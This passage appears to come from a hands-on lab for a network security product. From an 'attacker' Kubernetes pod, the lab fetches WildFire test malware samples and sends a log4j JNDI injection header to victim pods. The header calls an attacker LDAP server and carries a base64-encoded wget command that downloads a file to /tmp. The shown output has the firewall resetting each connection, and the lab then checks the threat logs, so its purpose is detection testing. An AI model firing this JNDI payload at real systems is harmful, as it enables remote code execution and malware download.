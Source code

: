     ```shell
    kubectl exec -it attacker -n attacker -- /bin/bash -c "curl -o wildfire-test-elf-file http://wildfire.paloaltonetworks.com/publicapi/test/elf -f | curl -o wildfire-test-pe-file.exe http://wildfire.paloaltonetworks.com/publicapi/test/pe -f";
    ```

    (output)
    <pre>
    99 55296   99 55049    0     0   255k      0 --:--:-- --:--:-- --:--:--  254k
    curl: (56) Recv failure: Connection reset by peer
    91  8608   91  7865    0     0   2462      0  0:00:03  0:00:03 --:--:--  2462
    curl: (56) Recv failure: Connection reset by peer
    command terminated with exit code 56</pre>
    

6. Open a shell session with the `attacker` pod.

    ```shell
    kubectl exec -it attacker -n attacker -- /bin/bash -c "echo VICTIM_POD=$VICTIM_POD | tee -a ~/.bashrc; echo WEB_POD=$WEB_POD | tee -a ~/.bashrc";
    kubectl exec -it attacker -n attacker -- /bin/bash
    ```

7. Execute a second remote command to attempt to exploit the `log4j` vulnerability on the victim pods.

    ```shell
    curl $VICTIM_POD:8080 -H 'X-Api-Version: ${jndi:ldap://attacker-svr:1389/Basic/Command/Base64/d2dldCBodHRwOi8vd2lsZGZpcmUucGFsb2FsdG9uZXR3b3Jrcy5jb20vcHVibGljYXBpL3Rlc3QvZWxmIC1PIC90bXAvbWFsd2FyZS1zYW1wbGUK}'
    ```

    (Output)
    <pre>
    curl: (56) Recv failure: Connection reset by peer</pre>
    

7. Exit from the `attacker` pod and return to cloud shell.

    ```shell
    exit
    ```

7. In SCM, go to **Incidents and Alerts → Log Viewer**.

8. Select **Firewall/Threat** as the log type.

    <img src="images/p7_01.png" alt="p7_01.png" />
